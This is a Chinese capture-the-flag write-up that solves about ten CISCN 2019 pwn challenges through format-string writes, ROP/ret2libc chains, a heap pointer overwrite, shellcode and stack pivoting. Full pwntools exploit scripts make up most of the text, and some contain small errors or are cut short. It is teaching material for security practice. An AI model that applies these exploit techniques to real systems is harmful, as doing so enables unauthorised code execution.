






# 0x01.ciscn_2019_sw_1


>   -   当`RELRO`保护为`NO RELRO`的时候，`init.array、fini.array、got.plt`均可读可写；为`PARTIAL RELRO`的时候，`ini.array、fini.array`可读不可写，`got.plt`可读可写；为`FULL RELRO`时，`init.array、fini.array、got.plt`均可读不可写。
>   -   程序在加载的时候，会依次调用`init.array`数组中的每一个函数指针，在结束的时候，依次调用`fini.array`中的每一个函数指针
>   -   当程序出现格式化字符串漏洞，但是需要写两次才能完成攻击，这个时候可以考虑改写`fini.array`中的函数指针为`main`函数地址，可以再执行一次`main`函数。一般来说，这个数组的长度为`1`，也就是说只能写一个地址

32位，开了NX

```sh
yutao@ubuntu:~/Desktop$ checksec ciscn_2019_sw_1
[*] '/home/yutao/Desktop/ciscn_2019_sw_1'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

一眼格式化字符串的洞，且格式化字符串的洞在栈上，比在堆上简单点：


下面测偏移：

```sh
yutao@ubuntu:~/Desktop$ ./ciscn_2019_sw_1 
Welcome to my ctf! What's your name?
aaaa%X.%X.%X.%X.%X.%X.%X.%X.%X.%X.%X.%X.%X.%X.%X.%X.
Hello aaaaFFB76310.2.0.61616161.252E5825.58252E58.2E58252E.252E5825.58252E58.2E58252E.252E5825.58252E58.2E58252E.252E5825.58252E58.2E58252E.yutao@ubuntu:~/Desktop$ 
```

偏移为4.

除此之外还有个sys：


所以，写fini_array的第一个为main的地址，并将printf@got改为system@plt。

```
system.plt: 0x80483D0
fini_array = 0x0804979C
printf.got = 0x0804989C
```


exp:

```python
from pwn import *

p = remote("node4.buuoj.cn",25857)
#p = process("./ciscn_2019_sw_1")

printf_got = 0x0804989C
system_plt = 0x080483D0
fini_array = 0x0804979C
main = 0x8048534
offset = 4
payload = p32(fini_array + 2) + p32(printf_got+2) + p32(printf_got) + p32(fini_array)
payload += "%" + str(0x0804 - 0x10) + "c%4$hn"    
payload += "%5$hn"                               
payload += "%" + str(0x83D0 - 0x0804) + "c%6$hn"  
payload += "%" + str(0x8534 - 0x83D0) + "c%7$hn"  
p.sendlineafter("name?\n",payload)
p.sendlineafter("name?\n",'/bin/sh\x00')
p.interactive()
```

# 0x02.ciscn_2019_s_3

　　32位与64位 系统调用的区别：

>　　　　1. 传参方式不同
>
>　　　　2. 系统调用号 不同
>
>　　　　3. 调用方式 不同

　　32位：

```
传参方式：首先将系统调用号 传入 eax，然后将参数 从左到右 依次存入 ebx，ecx，edx寄存器中，返回值存在eax寄存器

调用号：sys_read 的调用号 为 3 sys_write 的调用号 为 4

调用方式: 使用 int 80h 中断进行系统调用
```

　　64位：

```
传参方式：首先将系统调用号 传入 rax，然后将参数 从左到右 依次存入 rdi，rsi，rdx寄存器中，返回值存在rax寄存器

调用号：sys_read 的调用号 为 0 sys_write 的调用号 为 1

stub_execve 的调用号 为 59 stub_rt_sigreturn 的调用号 为 15

调用方式: 使用 syscall 进行系统调用
```

调用：\$rax\=\=59，\$rdi\=\=“/bin/sh”，\$rsi\=\=0，\$rdx\=\=0

首先往栈上写0x400，然后从栈上读0x30

经过调试发现输入后返回的是写入栈上的位置。



将0x00007ffe7d621e58减去0x00007ffe7d621d40得到0x118（固定）

所以经过recv的地址减去0x118就是写入/bin/sh的地址

有个gadgets函数：



其中的0x3B就是59，系统调用，

> hex(0x00007ffe7d621e58 - 0x7ffe7d621d40)
> '0x118'



r12是将要执行的地址。

```python
from pwn import *
io = remote('node3.buuoj.cn',26613)
#io = process("./ciscn_s_3")
vulun_addr = 0x4004ED
mov_rax = 0x4004E2
pop_rbx_rbp_r12= 0x40059a
mov_call = 0x400580
sys_call = 0x400517
pop_rdi = 0x04005a3

payload = b"/bin/sh\x00"*2 + p64(vulun_addr)
io.send(payload)
io.recv(0x20)

bin_sh_add = u64(io.recv(8))-0x118
payload = b"/bin/sh\x00"*2 + p64(pop_rbx_rbp_r12)+p64(0)*2+ p64(bin_sh_add+0x50) + p64(0)*3

payload +=  p64(mov_call)+p64(mov_rax) +p64(pop_rdi)+ p64(bin_sh_add) + p64(sys_call)

io.sendline(payload)

io.interactive()
```


# 0x03.ciscn_2019_n_3

new()中，分为两种type，一种是整形，一种是字符串，字符串的话将地址放在chunk中。

分配的0x10的有8byte写了两个函数的地址。（str_printf和str_free）

所以直接将free的地址改为system然后执行就OK。

这道题第一开始一直没太搞懂。



他delete了1和2之后，bin中有了两个，再下来new3 写入的时候，首先是malloc了1e0的那个位置，之后存放的地址是1a0那里，一直以为是1f0的位置。。。所以写入的sh+system的地址是1a0。

还有就是为什么sh的地址是1a0，可以这样查看，

exp：

```python
from pwn import *

p = process("./ciscn_2019_n_3")
context.log_level = 'debug'
elf = ELF("ciscn_2019_n_3")
def newnote(idx,type,value,length=0):
    p.recvuntil("CNote > ")
    p.sendline(str(1))
    p.recvuntil("Index > ")
    p.sendline(str(idx))
    p.recvuntil("Type > ")
    p.sendline(str(type))
    if type == 1:
        p.recvuntil("Value > ")
        p.sendline(str(value))
    else:
            p.recvuntil("Length > ")
            p.sendline(str(length))
            p.recvuntil("Value > ")
            if length == 8:
                p.send(value)
            else:
                p.sendline(value)
def delnote(idx):
    p.recvuntil("CNote > ")
    p.sendline(str(2))
    p.recvuntil("Index > ")
    p.sendline(str(idx))
def shownote(idx):
    p.recvuntil("CNote > ")
    p.sendline(str(3))
    p.recvuntil("Index > ")
    p.sendline(str(idx))

newnote(0,2,'a'*0x10,0x2c)
newnote(1,2,'b'*0x10,0x2c)
newnote(2,2,'c'*0x10,0x2c)

delnote(1)
delnote(2)
#gdb.attach(p)
newnote(3,2,'sh\x00\x00'+ p32(elf.plt['system']),0xc)
gdb.attach(p)
delnote(1)

p.interactive()
```

# 0x04.ciscn_2019_n_1

>   其实就是 计组的东西，，

```
yutao@pwnbaby:~/Desktop$ file ciscn_2019_n_1 
ciscn_2019_n_1: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=8a733f5404b1e2c65e1758c7d92821eb8490f7c5, not stripped
yutao@pwnbaby:~/Desktop$ checksec ciscn_2019_n_1
[*] '/home/yutao/Desktop/ciscn_2019_n_1'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

```

有个func()函数，输入的是v1，但是比较的是v2，将v2改为11.28125就OK

浮点数改为十六进制的话有脚本可以跑，下面说一下具体是怎么实现的。

首先11.28125转二进制的话是1011.01001。单精度浮点数是4个字节，也就是32位。

其中最高位是符号位，0为正，1为负。

接下来的8位是指数位。剩下的23位是尾数部分。

1011.01001 ==  1011.01001\*2^0  ==  1.01101001\*2^3

所以指数位就是（127+指数(3) ）的二进制表示，也就是1000 0010，至于为什么是127，规定。。

连起来就是01000001001101001000000000000000，十六进制表示就是0x4134800。

所以将v2覆盖为上面的值就OK。

exp：

```python
from pwn import *
#io = process("./ciscn_2019_n_1")
io = remote("node3.buuoj.cn", 26204)
payload = b'a'*(0x30-4) + p64(0x41348000)
io.send(payload)
io.intera
```

# 0x05.ciscn_2019_c_1

```
yutao@pwnbaby:~/Desktop$ file ciscn_2019_c_1 
ciscn_2019_c_1: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=06ddf49af2b8c7ed708d3cfd8aec8757bca82544, not stripped
yutao@pwnbaby:~/Desktop$ checksec ciscn_2019_c_1
[*] '/home/yutao/Desktop/ciscn_2019_c_1'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

程序的漏洞在encrypt()函数里面，可以发现在gets时，存在栈溢出的漏洞，这题并没有后门函数，但有puts函数，可以用来泄露libc版本并构造ROP链。

在\_\_libc\_csu\_init()函数的最后有个pop rdi,ret，可以用来构造ROP。

如果输入的字符串太少是不会进行加密的，

程序刚运行：

```
pwndbg> x/gx 0x6020ac
0x6020ac <x>:	0x0000000000000000
```

进行一次加密后：

```
pwndbg> x/gx 0x6020ac
0x6020ac <x>:	0x000000000000005b
```

我们构造的payload是120，满足需要加密的条件。

exp1：

```python
from pwn import *
from LibcSearcher import LibcSearcher
context.log_level = "debug"
# io = process('./ciscn_2019_c_1')
io = remote('node3.buuoj.cn','29497')
e = ELF('./ciscn_2019_c_1')

pop_rdi = 0x400c83
ret_addr = 0x4006b9#这里是用来平等栈的，因为题目环境是Ubuntu18
#Ubuntu18调用system时要对齐栈，需要加一个ret来平衡，否则会crash。
puts_plt = e.plt['puts']
puts_got = e.got['puts']


payload = 0x58*'a' + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(e.symbols['main'])
io.sendlineafter("your choice!\n","1")
io.sendlineafter("to be encrypted\n",payload)

io.recvuntil("Ciphertext\n")
io.recvline()

puts_addr = u64(io.recv(6).ljust(8, '\x00'))
libc = LibcSearcher('puts', puts_addr)
libc_base = puts_addr - libc.dump('puts')
system_addr = libc_base + libc.dump('system')
binsh_addr = libc_base + libc.dump('str_bin_sh')
io.sendlineafter("your choice!\n","1")
# gdb.attach(io)
payload = 0x58 * 'a' + p64(ret_addr) +p64(pop_rdi) + p64(binsh_addr) + p64(system_addr)
# 也可以多加几个ret，看出栈对齐的字节数。
io.sendlineafter("to be encrypted\n",payload)
io.recvuntil("Ciphertext\n")
io.recvline()
io.sendline('/bin/sh')
io.sendline(payload)
io.interactive()
```

也有另一种绕过加密的方法，就是让v0>=strlen(s)，我们可以让strlen(s)的长度为0，也就是让字符串的第一个字符为“\x00”，那样strlen函数读取到第一个字符串就会终止，就可以绕过加密。

exp2：

```python
from pwn import*
from LibcSearcher import *
context.log_level = 'debug'
#io = remote("node3.buuoj.cn" , 27728)
elf = ELF("./ciscn_2019_c_1")
io = process("./ciscn_2019_c_1")

puts_plt =elf.plt["puts"]
puts_got= elf.got["puts"]
pop_rid_ret = 0x400c83
main_addr = 0x400b28

io.recvuntil("Welcome to this Encryption machine\n")
io.sendline('1')

payload1 = b"\x00" + b"A"*(80 - 1 + 8) + p64(pop_rid_ret) + p64(puts_got) + p64(puts_plt) + p64(main_addr)
io.recvuntil("Input your Plaintext to be encrypted")
io.sendline(payload1)

io.recv()
io.recvuntil('\n\n')
puts_addr = io.recvuntil('\n',True)
puts_addr = u64(puts_addr.ljust(8,b'\x00'))
#puts_addr = puts_addr.ljust(8,b'\x00')
print("------------------->",hex(puts_addr))

libc = LibcSearcher('puts',puts_addr)
sys_libc = libc.dump('system')
bin_sh_libc = libc.dump('str_bin_sh')
puts_libc = libc.dump('puts')
retn = 0x4006B9

sys_addr = puts_addr + (sys_libc - puts_libc)
bin_addr = puts_addr + (bin_sh_libc - puts_libc)

io.recvuntil("Welcome to this Encryption machine\n")
io.sendline('1')

io.recvuntil("Input your Plaintext to be encrypted")
payload2 = b"\x00" + b"A"*(80 - 1 + 8) + p64(retn) + p64(pop_rid_ret) + p64(bin_addr) + p64(sys_addr) + b'A'*8
io.sendline(payload2)

io.interactive()
```

还有一种，就是老老实实的按照加密的思路写payload。

exp3：

```python
from pwn import *
from LibcSearcher import *


def encrypt(s):
    newstr = list(s)
    for i in range(len(newstr)):
        c = ord(s[i])
        if c <= 96 or c > 122:
            if c <= 64 or c > 90:
                if c > 47 and c <= 57:
                    c ^= 0xF
            else:
               c ^= 0xE
        else:
            c ^= 0xD
        newstr[i] = chr(c)
    return ''.join(newstr)

elf = ELF('./ciscn_2019_c_1')
#p = process('./ciscn_2019_c_1')
p = remote('node3.buuoj.cn',29497)

start = 0x400B28
rdi_addr = 0x400c83
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
p.sendlineafter("choice!",'1')

payload="a"*0x58
payload+=p64(rdi_addr)
payload+=p64(puts_got)
payload+=p64(puts_plt)
payload+=p64(start)
p.sendlineafter("encrypted",encrypt(payload))
p.recvuntil('Ciphertext\n')
p.recvuntil('\n')
puts_leak = u64(p.recvuntil('\n', drop=True).ljust(8,'\x00'))
log.success('puts_addr = ' + hex(puts_leak))
libc = LibcSearcher('puts', puts_leak)
libc_base = puts_leak - libc.dump('puts')
sys_addr = libc_base + libc.dump('system')
bin_sh_addr = libc_base + libc.dump('str_bin_sh')
payload1="a"*0x58
ret = 0x4006b9
payload1+=p64(ret)
payload1+=p64(rdi_addr)
payload1+=p64(bin_sh_addr)
payload1+=p64(sys_addr)
p.sendlineafter("choice!",'1')
p.sendlineafter("encrypted",payload1)
p.interactive()
```

还有一种写法，ret2csu也可。

# 0x06.ciscn_2019_en_2

和ciscn_2019_c_1是一模一样的...

ret2libc.

```python
from pwn import *
from LibcSearcher import *
context(log_level='DEBUG')
#io = process("./ciscn_2019_en_2")
io = remote('node3.buuoj.cn',29045)
elf = ELF("./ciscn_2019_en_2")
ret = 0x04006b9
pop_rdi_ret = 0x0400c83
main = 0x400B28

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']

payload = 0x58 * 'a'+ p64(pop_rdi_ret)+p64(puts_got)+p64(puts_plt)+ p64(main)

io.recvuntil("choice!")
io.sendline("1")
io.recvuntil("encrypted")
io.sendline(payload)
io.recvuntil("Ciphertext")
io.recvline()
io.recvline()
puts_addr =u64(io.recvuntil("\n")[:-1].ljust(8,'\0'))

libc = LibcSearcher("puts",puts_addr)
base = puts_addr - libc.dump('puts')
system_addr = base + libc.dump("system")
bin_sh = base + libc.dump('str_bin_sh')

payload = 0x58*'a'+p64(ret)+p64(pop_rdi_ret) +p64(bin_sh)+ p64(system_addr)
#Ubuntu18调用system时要ret，不然会crash
#栈对齐
io.sendline('1')
io.recvuntil("encrypted")
io.sendline(payload)
io.interactive()

#gdb.attach(io)
```

# 0x07.ciscn_2019_n_8

```
yutao@pwnbaby:~/Desktop$ checksec ciscn_2019_n_8
[*] '/home/yutao/Desktop/ciscn_2019_n_8'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [esp-14h] [ebp-20h]
  int v5; // [esp-10h] [ebp-1Ch]

  var[13] = 0;
  var[14] = 0;
  init();
  puts("What's your name?");
  __isoc99_scanf("%s", var, v4, v5);
  if ( *&var[13] )
  {
    if ( *&var[13] == 17LL )
      system("/bin/sh");
    else
      printf(
        "something wrong! val is %d",
        var[0],
        var[1],
        var[2],
        var[3],
        var[4],
        var[5],
        var[6],
        var[7],
        var[8],
        var[9],
        var[10],
        var[11],
        var[12],
        var[13],
        var[14]);
  }
  else
  {
    printf("%s, Welcome!\n", var);
    puts("Try do something~");
  }
  return 0;
}
```

所以payload：

```python
from pwn import *
context(log_level='DEBUG')
#io = process("./ciscn_2019_n_8")
io = remote('node3.buuoj.cn',29560 )
io.recv() 
payload = p32(17) * 14
io.sendline(payload)
io.interactive()
```

# 0x08.ciscn_2019_n_5

啥都没开，刺激。

```
yutao@pwnbaby:~/Desktop$ checksec ciscn_2019_n_5
[*] '/home/yutao/Desktop/ciscn_2019_n_5'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

可以ret2libc或者ret2shellcode

这里要加架构名称，不然报错。

```python
from pwn import *
context(log_level='DEBUG')
context(arch='amd64',os='linux')
#io = process("./ciscn_2019_n_5")
io = remote('node3.buuoj.cn',28410)
io.recv()
payload_add = 0x0601080
payload = asm(shellcraft.sh()) 
io.send(payload)
io.recv()
payload = 'a'*0x28+p64(payload_add)
io.sendline(payload)
io.interactive()
```

注意Ubuntu18的话要加一个ret栈对齐

```python
from pwn import *
from LibcSearcher import LibcSearcher
context(log_level='DEBUG')
io = process("./ciscn_2019_n_5")
elf = ELF('./ciscn_2019_n_5')
#io = remote('node3.buuoj.cn',28410)
io.recv()
io.sendline("123")
pop_rdi_ret = 0x00400713
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
main = 0x400636
io.recv()
payload = 'a'*0x28+p64(pop_rdi_ret) + p64(puts_got)+p64(puts_plt)+p64(main)
io.sendline(payload)
puts_addr = u64(io.recv(6).ljust(8, '\x00'))
libc = LibcSearcher('puts',puts_addr)
base = puts_addr - libc.dump('puts')
sys_addr = base + libc.dump('system')
bin_sh = base + libc.dump('str_bin_sh')
io.sendline(11)
ret = 0x4004c9
payload = 'a'*0x28+p64(ret)+p64(pop_rdi_ret) +p64(bin_sh)+ p64(sys_addr)
io.interactive()
```

# 0x09.ciscn_2019_ne_5

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int result; // eax
  int v4; // [esp+0h] [ebp-100h] BYREF
  char src[4]; // [esp+4h] [ebp-FCh] BYREF
  char v6[124]; // [esp+8h] [ebp-F8h] BYREF
  char s1[4]; // [esp+84h] [ebp-7Ch] BYREF
  char v8[96]; // [esp+88h] [ebp-78h] BYREF
  int *v9; // [esp+F4h] [ebp-Ch]

  v9 = &argc;
  setbuf(stdin, 0);
  setbuf(stdout, 0);
  setbuf(stderr, 0);
  fflush(stdout);
  *(_DWORD *)s1 = 48;
  memset(v8, 0, sizeof(v8));
  *(_DWORD *)src = 48;
  memset(v6, 0, sizeof(v6));
  puts("Welcome to use LFS.");
  printf("Please input admin password:");
  __isoc99_scanf("%100s", s1);
  if ( strcmp(s1, "administrator") )
  {
    puts("Password Error!");
    exit(0);
  }
  puts("Welcome!");
  puts("Input your operation:");
  puts("1.Add a log.");
  puts("2.Display all logs.");
  puts("3.Print all logs.");
  printf("0.Exit\n:");
  __isoc99_scanf("%d", &v4);
  switch ( v4 )
  {
    case 0:
      exit(0);
      return result;
    case 1:
      AddLog(src);
      result = sub_804892B(argc, argv, envp);
      break;
    case 2:
      Display(src);
      result = sub_804892B(argc, argv, envp);
      break;
    case 3:
      Print();
      result = sub_804892B(argc, argv, envp);
      break;
    case 4:
      GetFlag(src);
      result = sub_804892B(argc, argv, envp);
      break;
    default:
      result = sub_804892B(argc, argv, envp);
      break;
  }
  return result;
}
```

先输入密码为administrator，然后进入菜单。

问题出在GetFlag里：

```c
int __cdecl GetFlag(char *src)
{
  char dest[4]; // [esp+0h] [ebp-48h] BYREF
  char v3[60]; // [esp+4h] [ebp-44h] BYREF
  *(_DWORD *)dest = 48;
  memset(v3, 0, sizeof(v3));
  strcpy(dest, src);
  return printf("The flag is your log:%s\n", dest);
}
```

因为有fflush，其中的字符串sh可以代替/bin/sh

>    ROPgadget  --binary ciscn_2019_ne_5  --string "sh"

```python
from pwn import *
context(log_level='DEBUG')
io = process("./ciscn_2019_ne_5")
elf = ELF("./ciscn_2019_ne_5")
#io = remote()
sh_addr = 0x080482ea
sys_addr = elf.plt['system']
payload = 'a'*(0x48+4)+ p32(sys_addr)+p32(0xdeadbeef)+p32(sh_addr)
io.recvline()
io.sendline("administrator")
io.recvline()
io.sendline("1")
io.recvline()
io.sendline(payload)
io.recv()
io.sendline("4")
io.interactive()
```

# 0x0A.ciscn_2019_s_4

```shell
gwt@ubuntu:~/Desktop$ checksec ciscn_s_4 
[*] '/home/gwt/Desktop/ciscn_s_4'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
gwt@ubuntu:~/Desktop$ 
```

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  init();
  puts("Welcome, my friend. What's your name?");
  vul();
  return 0;
}
int vul()
{
  char s[40]; // [esp+0h] [ebp-28h] BYREF

  memset(s, 0, 0x20u);
  read(0, s, 0x30u);
  printf("Hello, %s\n", s);
  read(0, s, 0x30u);
  return printf("Hello, %s\n", s);
}
//还有个后门函数
int hack()
{
  return system("echo flag");
}
```

这题输入的定长只有0x30，只能溢出8字节，所以不能ret2libc。

vuln是以leave ret结尾的

```assembly
.text:08048595
.text:08048595 ; __unwind {
.text:08048595                 push    ebp
.text:08048596                 mov     ebp, esp
.text:08048598                 sub     esp, 28h
.text:0804859B                 sub     esp, 4
.text:0804859E                 push    20h ; ' '       ; n
.text:080485A0                 push    0               ; c
.text:080485A2                 lea     eax, [ebp+s]
.text:080485A5                 push    eax             ; s
.text:080485A6                 call    _memset
.text:080485AB                 add     esp, 10h
.text:080485AE                 sub     esp, 4
.text:080485B1                 push    30h ; '0'       ; nbytes
.text:080485B3                 lea     eax, [ebp+s]
.text:080485B6                 push    eax             ; buf
.text:080485B7                 push    0               ; fd
.text:080485B9                 call    _read
.text:080485BE                 add     esp, 10h
.text:080485C1                 sub     esp, 8
.text:080485C4                 lea     eax, [ebp+s]
.text:080485C7                 push    eax
.text:080485C8                 push    offset format   ; "Hello, %s\n"
.text:080485CD                 call    _printf
.text:080485D2                 add     esp, 10h
.text:080485D5                 sub     esp, 4
.text:080485D8                 push    30h ; '0'       ; nbytes
.text:080485DA                 lea     eax, [ebp+s]
.text:080485DD                 push    eax             ; buf
.text:080485DE                 push    0               ; fd
.text:080485E0                 call    _read
.text:080485E5                 add     esp, 10h
.text:080485E8                 sub     esp, 8
.text:080485EB                 lea     eax, [ebp+s]
.text:080485EE                 push    eax
.text:080485EF                 push    offset format   ; "Hello, %s\n"
.text:080485F4                 call    _printf
.text:080485F9                 add     esp, 10h
.text:080485FC                 nop
.text:080485FD                 leave
.text:080485FE                 retn
.text:080485FE ; } // starts at 8048595
.text:080485FE vul             endp
```

可以进行栈迁移。

>   假设esp => 0x1111,ebp=>0x2222
>
>   那么leave：
>
>   >   mov esp,ebp; // esp = ebp = 0x2222
>   >
>   >   pop ebp ;// ebp = [esp]，esp = esp+4


输入0x20个a查看栈

```bash
pwndbg> stack 30
00:0000│ esp  0xffffd048 —▸ 0xffffd098 —▸ 0xffffd0a8 ◂— 0x0
01:0004│      0xffffd04c ◂— 0x30 /* '0' */
02:0008│      0xffffd050 —▸ 0xffffd070 ◂— 0x61616161 ('aaaa')
03:000c│      0xffffd054 —▸ 0xf7ed9c43 (__read_nocancel+25) ◂— pop    ebx
04:0010│      0xffffd058 ◂— 0x0
05:0014│      0xffffd05c —▸ 0x80485e5 (vul+80) ◂— add    esp, 0x10
06:0018│      0xffffd060 ◂— 0x0
07:001c│      0xffffd064 —▸ 0xffffd070 ◂— 0x61616161 ('aaaa')
08:0020│      0xffffd068 ◂— 0x30 /* '0' */
09:0024│      0xffffd06c —▸ 0xf7fb7d60 (_IO_2_1_stdout_) ◂— 0xfbad2887
0a:0028│ ecx  0xffffd070 ◂— 0x61616161 ('aaaa')
... ↓
12:0048│      0xffffd090 —▸ 0x80486d8 ◂— push   edi
13:004c│      0xffffd094 —▸ 0xffffd154 —▸ 0xffffd327 ◂— './ciscn_s_4'
14:0050│ ebp  0xffffd098 —▸ 0xffffd0a8 ◂— 0x0
15:0054│      0xffffd09c —▸ 0x804862a (main+43) ◂— mov    eax, 0
16:0058│      0xffffd0a0 —▸ 0xf7fb73dc (__exit_funcs) —▸ 0xf7fb81e0 (initial) ◂— 0x0
17:005c│      0xffffd0a4 —▸ 0xffffd0c0 ◂— 0x1
```

可以看到ebp的地址是0xffffd0a8，输入的buf的地址是0xffffd070，相差0x38.

```python
payload = 'a'*(0x28)
io.send(payload)
io.recvuntil('a'*0x28)
ebp = u32(io.recv(4))
print hex(ebp)
```

